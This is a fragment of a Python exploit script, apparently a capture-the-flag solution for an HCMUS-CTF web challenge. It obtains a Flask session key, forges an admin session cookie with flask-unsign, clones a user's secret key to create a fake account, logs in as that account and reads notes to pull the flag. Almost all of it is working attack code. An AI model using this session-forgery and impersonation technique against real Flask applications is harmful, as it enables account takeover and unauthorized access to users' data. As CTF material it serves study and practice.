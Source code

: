 ```python
    time.sleep(1)
    payload = {
        'username': 'admin',
        'secret_key': 'cascascas'
    }
    payload = str(payload).replace('"', '\\"')
    session = os.popen(f"flask-unsign --sign --cookie \"{payload}\" --secret '{session_key}'").read()[:-1]
    return session

session_key = get_session_key()
print(f'[+] session_key = {session_key}')

note_list = get_user_note_list(ACCOUNT, session_key)
print(f'[+] note_list = {note_list}')

fake_user = copy_user_secret_key(ACCOUNT, session_key)
print('[+] fake user with same secret key created')

logout()
login(fake_user)
print('[+] login as fake_user')

print('[+] finding flag')
for note in note_list:
    content = read_file(note)
    re_res = re.findall(r'HCMUS-CTF{(.*)}', content)
    if len(re_res) > 0:
        for flag in re_res:
            print("[+] flag: HCMUS-CTF{" + flag + "}")
```